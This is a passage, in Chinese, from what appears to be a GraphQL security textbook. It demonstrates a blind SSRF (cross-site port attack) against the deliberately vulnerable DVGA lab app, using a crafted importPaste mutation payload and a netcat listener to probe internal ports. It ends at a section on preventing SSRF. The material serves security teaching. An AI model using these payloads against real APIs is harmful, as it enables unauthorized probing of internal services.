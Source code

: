 清单 9-8：恶意版本的 `importPaste` 变更请求

在运行变更请求后，你应该从 Altair 中看到如下响应：

```
{
  "data": {
    "importPaste": {
      "result": ""
    }
  }
}
```

服务器返回了一个空的 `result` 对象值。我们在 Altair 中很快就得到了这个响应。（在我们的实验室中，我们在 100 毫秒内就收到了。）因此，我们现在知道，如果我们探测一个未打开的端口，就会立即收到没有数据的 `result` JSON 键。

接下来，让我们通过探测一个存在的服务来模拟 SSRF 漏洞。为了模拟 DVGA 容器上的额外服务，我们将使用 Netcat。首先，在 Kali 终端中运行以下 Docker 命令，在 DVGA 容器中启动一个 Netcat 监听器：

```
# **sudo docker exec -it dvga nc -lvp 7773**

listening on [::]:7773 ...
```

接下来，我们将构造一个有效载荷，向 Netcat 正在绑定的端口（7773）发送 HTTP 探测请求，如 清单 9-9 所示。

```
mutation {
  importPaste(scheme: "http", host:"localhost", port:7773, path: "/ssrf") {
    result
  }
}
```

清单 9-9：利用 SSRF 漏洞的变更查询

如果你发送此查询，你应该会在 Netcat 监听器中看到类似 清单 9-10 的输出。

```
connect to [::ffff:127.0.0.1]:7773 from localhost:55554 ([::ffff:127.0.0.1]:55554)
GET /ssrf HTTP/1.1
Host: localhost:7773
User-Agent: curl/7.83.1
Accept: */*
```

清单 9-10：DVGA 请求到达内部服务

这表明 DVGA 向一个内部的、未公开的端口发送了 GET 请求。请注意，这个端口并不直接由 Kali 机器访问；我们是通过 DVGA 本身来访问它，说明了 SSRF 漏洞如何让攻击者访问他们本不应直接访问的服务。这个 SSRF 攻击更具体地说是一种 *跨站端口攻击（XSPA）*，属于 SSRF 漏洞类别。

你可能也注意到，在发送了 `importPaste` 变更请求后，Altair 会卡住，见 清单 9-10。这是因为我们打开的 Netcat 监听器没有返回响应，而 Altair 等待直到收到来自 GraphQL API 的响应。这实际上是一个盲 SSRF，因为作为攻击者我们无法直接访问响应；我们所知道的只是，当我们探测一个打开的端口时，客户端会卡住。你可以通过按 CTRL-C 来关闭 Netcat 监听器。此时，Altair 状态应该恢复正常。

### 防止 SSRF
